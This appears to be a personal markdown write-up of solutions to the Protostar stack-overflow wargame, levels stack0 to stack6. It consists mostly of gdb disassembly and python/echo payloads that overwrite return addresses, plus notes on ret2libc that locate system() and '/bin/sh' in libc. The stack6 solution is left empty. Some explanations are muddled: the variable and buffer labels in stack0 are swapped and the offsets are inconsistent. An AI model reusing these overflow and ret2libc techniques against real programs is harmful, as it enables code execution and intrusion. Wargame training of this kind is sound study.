

# the solutions of protostar

## table of content

- [the solutions of protostar](#the-solutions-of-protostar)
  - [table of content](#table-of-content)
  - [stack0](#stack0)
    - [stack0 solution](#stack0-solution)
  - [stack1](#stack1)
    - [stack1 solution](#stack1-solution)
  - [stack2](#stack2)
    - [stack2 solution](#stack2-solution)
  - [stack3: python3 encoding(bad characters)](#stack3-python3-encodingbad-characters)
    - [stack3 solution](#stack3-solution)
  - [stack4: modify EIP](#stack4-modify-eip)
    - [stack4 solution](#stack4-solution)
  - [stack5: jmp esp](#stack5-jmp-esp)
    - [stack5 solution](#stack5-solution)
  - [stack6: ret2libc](#stack6-ret2libc)
    - [ret2Libc Summary](#ret2libc-summary)
    - [stack6 solution](#stack6-solution)

## stack0

```asm
(gdb)disassemble
Dump of assembler code for function main:
=> 0x080483f4 <+0>:     push   ebp
   0x080483f5 <+1>:     mov    ebp,esp
   0x080483f7 <+3>:     and    esp,0xfffffff0
   0x080483fa <+6>:     sub    esp,0x60                    # allocating space. char buffer[64]
   0x080483fd <+9>:     mov    DWORD PTR [esp+0x5c],0x0    # volatile int modified
   0x08048405 <+17>:    lea    eax,[esp+0x1c]
   0x08048409 <+21>:    mov    DWORD PTR [esp],eax
   0x0804840c <+24>:    call   0x804830c <gets@plt>
   0x08048411 <+29>:    mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:    test   eax,eax
   0x08048417 <+35>:    je     0x8048427 <main+51>
   0x08048419 <+37>:    mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:    call   0x804832c <puts@plt>
   0x08048425 <+49>:    jmp    0x8048433 <main+63>
   0x08048427 <+51>:    mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:    call   0x804832c <puts@plt>
   0x08048433 <+63>:    leave
   0x08048434 <+64>:    ret
```

- `[esp+0x1c]`: the variable
- `[esp+0x5c]`: the stack buffer

- when input length > buffer.size, the bottom of the stack (ebp) gets overwrited

- **Think about the pointer. `buffer[65]` points to a higher address than `buffer[0]`.**
- The actual memory location of the `buffer` could be printed using `printf("%p\n", (void *) buffer)`, or `$esp+0x1c` @ `*main + 17`.
- Hence when the buffer overflows, the variable stored at `[esp+0x5c]` @ `*main + 9`, which is higher than the aforementioned `buffer`, will be overwritten eventually.

### stack0 solution

```sh
python3 -c "print('A' * 80)" | ./stack0
```

## stack1

```asm
   0x080484ab <+71>:    cmp    eax,0x61626364
```

```gdb
r $(python3 -c 'print("A" * 64 + "BCDEFGHIJKLMNOPQRSTUVWXYZ")')
r $(python3 -c "print(b'A' * 64 + b'\x42\x43\x44\x45')")
  # the "b'" occupies 2 bytes
b *main + 71
info registers    # eax 0x45444342 
```

### stack1 solution

```sh
# ./stack1 $(python3 -c "print(b'A' * 62 + b'\x64\x63\x62\x61')")
./stack1 $(python3 -c "print('A' * 64 + '\x64\x63\x62\x61')")
```

## stack2

```gdb
b *main+84
```

### stack2 solution

```sh
GREENIE=$(python3 -c "print('A' * 64 + '\x0a\x0d\x0a\x0d')");export GREENIE;printenv GREENIE;
  # if use b'', the \x0a will be literally parsed as '\' 'x' '0' 'a'
./stack2
```

## stack3: python3 encoding(bad characters)

```asm
  0x08048475 <+61>:    call   eax 
```

- find out the target binary

```sh
objdump -d stack3 | grep win
  # @ 0x08 04 84 24 
```

- redirect the `fp();` call. Problem: bad chars

```gdb
b *main + 61
r <<< $(python3 -c "print('A' * 120)")
r <<< $(python3 -c "print('A' * 64 + '\x24\x84\x04\x08')")
  # bad chars. The '\x84' get parsed as '\xc2\x84' in python3. Possible UTF-8 <control> string.
  # solution: use echo -e -n
```

### stack3 solution

```sh
./stack3 <<< $(python3 -c "print('A' * 64)"|xargs echo -en;echo -en '\x24\x84\x04\x08')
```

## stack4: modify EIP

```asm
(gdb) disassemble main
Dump of assembler code for function main:
  0x08048408 <+0>:     push   ebp
  0x08048409 <+1>:     mov    ebp,esp
  0x0804840b <+3>:     and    esp,0xfffffff0                  # padding, esp <- ebp-0xb
  0x0804840e <+6>:     sub    esp,0x50
  0x08048411 <+9>:     lea    eax,[esp+0x10]
  0x08048415 <+13>:    mov    DWORD PTR [esp],eax
  0x08048418 <+16>:    call   0x804830c <gets@plt>
  0x0804841d <+21>:    leave
  0x0804841e <+22>:    ret
End of assembler dump. 
```

```sh
objdump -d ./stack4
  # 080483f4
```

```gdb
b *main + 22
r <<< $(python3 -c "print('A' * 120)")
r <<< $(python3 -c "print('A' * (64 + int(0xb + 0x4)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

### stack4 solution

```sh
./stack4 <<< $(python3 -c "print('A' * (64 + int(0xb + 0x1)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

## stack5: jmp esp

```asm
(gdb) disassemble main
Dump of assembler code for function main:
  0x080483c4 <+0>:     push   ebp
  0x080483c5 <+1>:     mov    ebp,esp
  0x080483c7 <+3>:     and    esp,0xfffffff0
  0x080483ca <+6>:     sub    esp,0x50
  0x080483cd <+9>:     lea    eax,[esp+0x10]
  0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
  0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
  0x080483d9 <+21>:    leave
  0x080483da <+22>:    ret
End of assembler dump.
```

- info:
  + `leave` === `# mov esp, ebp -> pop ebp`. The `pop ebp` means esp += 4
  + `ret` esp += 4 again, and `eip <- [esp]`, which is the so-called `JMP esp`

```gdb
b *main + 21
info proc mappings
   # start      end           size        offset objfile
   # 0xffbf2000 0xffc13000    0x21000        0x0 [stack]
./stack5 <<< $(python3 -c "print('A' * (64 + int(0xb + 0x1)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')

   # objdump -d ./stack5
   # 080483c4 <main>

   # leave                  esp=0xfff34180 ebp=0xfff341d8 -> esp=0xfff341dc
     # (gdb) x/4wx $esp
     # 0xfff341dc:     0xf7d0ff21      0x00000001      0xfff34274      0xfff3427c 
   # ret
     # eip=0xf7d0ff21
r <<< $(python3 -c "print('A' * 76 )"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

### stack5 solution

```sh
./stack5 <<< $(python3 -c "print('A' * 76 )"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

- A problem: to `jmp esp`, `ebp` must be overwritten (modern system stack cookie)

## stack6: ret2libc

- img:
  
  ref:(<https://bufferoverflows.net/ret2libc-exploitation-example/>)

- info `ret2libc`

- a conventional call?: push the param, push rtn address then jmp. (callee push ebp...)

```asm
  0x08048415 <+13>:    mov    DWORD PTR [esp],eax
  0x08048418 <+16>:    call   0x804830c <gets@plt>
```

- stack before a normal `call` `jmp`

```asm
  0x00000000
  ...
  <param>
  <returnAddressAfterTheCall>
  <callee>
  ...
  0xffffffff
```

### ret2Libc Summary

- Overwrite the `<callee>` address, and pretend to be a normal call. Basic structure:

```sh
  # payload = padding + libc_func_addr + ret_addr(could be used to chain exec) + func_param0 + func_param1
./stack6 <<< $(python3 -c "print('A' * 64)"|xargs echo -en;echo -en '\x24\x84\x04\x08')
```

- find the `<callee>` function, from lib_c

```gdb
b *main + 62
r
info proc mappings
p system
  # $1 = {int (const char *)} 0x7ffff7e12410 <__libc_system>
x/s 0x7ffff7e12410
p /a 0x7ffff7e12410
  # print as address

```

- find the `<param>` string in lib_c, e.g. `"/bin/sh"`

```gdb
find 0x7ffff7dbd000, 0x7fffffffffff, "/bin/sh"
  # 0x7ffff7f745aa
  #!? p /s 0x7ffff7f745aa
x/s 0x7ffff7f745aa
  # "/bin/sh"
```

- parse the payload

### stack6 solution
